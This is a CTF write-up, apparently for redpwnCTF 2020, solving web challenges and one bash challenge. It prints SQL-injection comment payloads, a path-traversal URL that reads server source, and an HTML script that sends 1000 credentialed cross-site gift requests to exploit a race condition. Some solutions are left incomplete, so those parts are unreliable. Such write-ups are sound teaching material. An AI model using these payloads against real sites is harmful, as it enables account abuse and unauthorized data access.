

I enjoyed this CTF overall and there were many well-made challenges! 

---

## Web

---

# Inspector General

#### Category: Web | 1300 solves | 112 points

<details>
  <summary>Challenge Description</summary>
  
  My friend made a new webpage, can you find a flag?

</details>

The challenge description mentions the inspector tool, but all your have to do is to just view the source as the flag is not dynamically loaded. 

Go to `view-source:https://redpwn.net/` and you will see the flag on `line 7`.


<details>
  <summary>FLAG</summary>
  
  flag{1nspector_g3n3ral_at_w0rk}
</details>

***

# Login

#### Category: Web | 1007 solves | 148 points

<details>
  <summary>Challenge Description</summary>
  
  I made a cool login page. I bet you can't get in!

  Site: login.2020.redpwnc.tf
</details>

It looked like a simple SQLi, so I tried `admin';` and `admin'; -- `, but no luck. However, as an extension, I then tried `admin'; /*` - another way of writing the comment tag and we got the flag!


<details>
  <summary>FLAG</summary>
  
  flag{0bl1g4t0ry_5ql1}
</details>

***

# Static-Pastebin

#### Category: Web | 374 solves | 373 points

<details>
  <summary>Challenge Description></summary>
  
 I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

  Site: static-pastebin.2020.redpwnc.tf

  Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>


This was also pretty easy! 


<details>
  <summary>FLAG</summary>
  
  flag{54n1t1z4t10n_k1nd4_h4rd}
</details>


***

# Static-Static-Hosting

#### Category: Web | 222 solves | 434 points

<details>
  <summary>Challenge Description</summary>
  
  Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here

Site: static-static-hosting.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.

</details>

This is the same as the previous challenge, except you have to XSS the admin to get the cookies, which most likely contains the flag.

I first tried the `<script>` tags which didn't work, and after reading the source on https://static-static-hosting.2020.redpwnc.tf/site/script.js I understood why:  

```
if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
```

It removes the script tags then sanitizes them. Thus, let's take a look at the sanitize function:

```
if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
```

So basically you can only use `src`, `width`, `height`, `alt`, `class` to load your XSS payload.
I actually tried `</iframe>`

Send the site to admin and you'll get the flag in your response.


<details>
  <summary>FLAG</summary>

flag{wh0_n33d5_d0mpur1fy}
</details>  

***

# Tux-Fanpage

#### Category: Web | 135 solves | 464 points

<details>
  <summary>Challenge Description</summary>
  
  My friend made a fanpage for Tux; can you steal the source code for me?

Site: tux-fanpage.2020.redpwnc.tf
</details>


This is a very geocities site that almost gave me a headache looking at it, so I jumped straight to the provided `index.js` source instead of actually looking at the site.

Just from line 9, we can see that there is a possibility of LFI `res.redirect('/page?path=index.html')` as the app calls the page with a path by specifying the filename.

Moving on, we check the logic:


```
//Get absolute path from relative path
function prepare(dir){
    return path.resolve('./public/' + dir)
}
```

This is nothing, since you can simply bypass it with `../` if not for the `preventTraversal(dir)` function.

```
//Strip leading characters
function strip(dir){
    const regex = /^[a-z0-9]$/im

    //Remove first character if not alphanumeric
    if(!regex.test(dir[0])){
        if(dir.length > 0){
            return strip(dir.slice(1))
        }
        return ''
    }

    return dir
}

```

This is also nothing, since you just have to add a letter/number as your first character in your payload, eg. `a../` will bypass the 2 functions above.

```
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}
```

However, this was a problem that got me stuck for a while as I did not realise on the first glance that it is not bypass-able, while attempting to meet the requirements of the other 2 functions. After an hour, I decided to read the rest of the source more carefully and noticed the checking logic:

```
path = strip(path)

path = preventTraversal(path)
```

And then I thought, "This was it!!" Since both `strip` and `preventTraversal` was not checked at the same time, all you have to do is to fool the parser.

#### Payload

https://tux-fanpage.2020.redpwnc.tf/page?path=a&path=../../../index.js 

Send this and we'll get the source where the flag is not `[REDACTED]` instead. On Line 6: `const flag = 'flag{tr4v3rsal_Tim3}'`, we have the flag.



<details>
  <summary>FLAG</summary>
  
  flag{tr4v3rsal_Tim3}
</details>

***

# Anti-Textbook

#### Category: Web | 71 solves | 482 points

<details>
  <summary>Challenge Description</summary>
  
  It's important for public keys to be transparent.

Hint: certificate-transparency.org
</details>

Let's start off first by saying the hint didn't help at all. In fact, it led me on a wrong rabbit hole where I went to https://security.googleblog.com/2017/01/security-through-transparency.html and went to their github repo for that and nothing good came out of it.

So anyway, at first when I saw the `data.txt` I thought this was a crypto question. In fact, it is part crypto, since I solved it with this script:

```python
from Crypto.PublicKey.RSA import construct

e = long(65537)
n = long(23476345782117384360316464293694572348021858182972446102249052345232474617239084674995381439171455360619476964156250057548035539297034987528920054538760455425802275559282848838042795385223623239088627583122814519864252794995648742053597744613214146425693685364507684602090559028534555976544379804753832469034312177224373112610128420211922617372377101405991494199975508780694545263130816110474679504768973743009441005450839746644168233367636158687594826435608022717302508912914016439961300625816187681031915377565087756094989820015507950937541001438985964760705493680314579323085217869884649720526665543105616470022561)
pubkey = construct((n, e))
print(pubkey.exportKey())
```

This will give us the public key, which I tried searching for the hashed version (both SHA-1 and SHA-256) on https://crt.sh/ but nothing good came out of it.

After a while, I was definitely stuck so I just left it there, until my teammate pointed out that I was searching for the hash of a *public key* instead of *certificate*. D'oh!

So let's convert it to a certificate using `openssl`: `openssl pkey -pubin -outform der -in textbook.key | openssl dgst -sha1`

By `SHA-1` hashing the `.der` format of the key, we can find the actual domain on the site here: https://crt.sh/?id=2001057066

After visiting the DNS listed in the `Subject/commonName` (oa4gio7glypwggb9iu3rh8mrc87tnjbs.flag.ga), we get the flag!


<details>
  <summary>FLAG</summary>
  
  flag{c3rTific4t3_7r4n5pArAncY_fTw}
</details>

***

# Cookie-Recipes-v2

#### Category: Web | 51 solves | 488 points

<details>
  <summary>Challenge Description</summary>
  
  I want to buy some of these recipes, but they are awfully expensive. Can you take a look?

Site: cookie-recipes-v2.2020.redpwnc.tf
</details>

So we are given a site where you can purchase flags. I already know where this is going - we just have to get our hands on the shop item called `flag`, which as usual, there is no way our balance will be able to afford it.

Since we don't have a sell function but a report function instead, I knew we have to phish the admin somehow - either by XSS or CSRF - by sending a link containing our payload.

So anyway, while blackboxing the site, I found an IDOR within 4 minutes of opening it and got the admin credentials - username and password. 


I had guessed that the admin ID was either `1` or `0`, and afterwards I also noticed that in the last several lines of the source, a comment did state that the ID is `0`. 

However, trying to log in as admin fails because it checks for the IP, and it is *NOT* bypass-able via any HTTP Header since it is being checked by validating `req.socket.remoteAddress`. Nevertheless, I still tried it anyway and you can see the failed results:


So anyway, I went to continue blackboxing because it's more fun that way.

We find out that CSRF *might not* be possible, since the request is being sent via JSON, so there will always be a trailing `=` sign at the back of the request. HOWEVER, I also found that since the `Content-Type` is not being checked, you can simply send your payload as a JSON String and it will work, like this!

`xhr.send(JSON.stringify({"password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"}));`

Then I got stuck again, as I remembered that the admin account only has a balance of 140, which was far from enough to purchase the flag at 1000. However, my teammate Kenneth suggested that maybe the admin had already purchased the flag, so we went into the wrong rabbit hole of trying to get the result of `getPurchased` and getting the admin to send it to us. In the process, I learnt about maintaining session during `xhr` by using `withCredentials` and `onload` and `onreadystatechange`. I also learnt that it is impossible to either retrieve the `Set-Cookie` header from the response or send a `Cookies` header with `xhr`, since it was blocked by the specifications for security reasons.

Anyway, waituck came in and saved the day by telling us that you could just solve it with a Race condition, like this:

#### Payload

```
<html><script>
    async function jsonreq() {
        var xhr = new XMLHttpRequest()
        xhr.open("POST","https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=13186538601383376495", true);
        xhr.withCredentials = true;
        xhr.setRequestHeader("Content-Type","text/plain");
        xhr.send(JSON.stringify({"password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"}));
    }
    for (var i = 0; i < 1000; i++) {
        jsonreq();
    }
</script></html>
```

Host this on your server and send it to the admin. Soon, you'll have enough credits to buy the flag.


And go to `/purchases` to view it!


<details>
  <summary>FLAG</summary>
  
  flag{n0_m0r3_gu3551ng}
</details>

---

## Misc

---

# UglyBash

#### Category: Misc | 407 solves | 359 points

<details>
  <summary>Challenge Description</summary>
  
  This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.

The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?

Enjoy the intro misc chal.
</details>

We just have to execute the script step-by-step, with comments. So just use 

`bash -x cmd.sh` and you'll get one character of the flag printed out every step of the script.

<details>
  <summary>FLAG</summary>
  
  flag{us3_zsh,_dummy}
</details>

***